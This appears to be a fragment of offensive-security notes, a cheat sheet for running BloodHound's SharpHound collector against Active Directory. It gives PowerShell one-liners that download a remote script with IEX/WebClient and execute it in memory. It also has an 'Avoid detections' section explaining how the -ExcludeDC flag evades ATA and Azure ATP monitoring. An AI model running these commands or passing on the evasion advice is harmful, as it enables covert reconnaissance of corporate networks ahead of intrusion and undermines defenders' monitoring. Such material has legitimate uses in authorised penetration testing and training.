

Invoke-BloodHound
Invoke-BloodHound
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1 ');Invoke-BloodHound -CollectionMethod All -Verbose
Avoid detectionsTo avoid Detection from:
◇ Advanced Threat
Analytics (ATA)
ATA instead is installed directly on the local machines servers of the organization
◇
Azure Advanced Threat Protection (Azure ATP)
Azure ATP is the cloud-based version of ATA.
The flag
“ExcludeDC” excludes domain controllers from session enumeration. This prevents ATA/Azure ATP from detecting scans,
because the softwares monitors only DCs in this context
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1 ');Invoke-BloodHound -CollectionMethod All -ExcludeDC -Verbose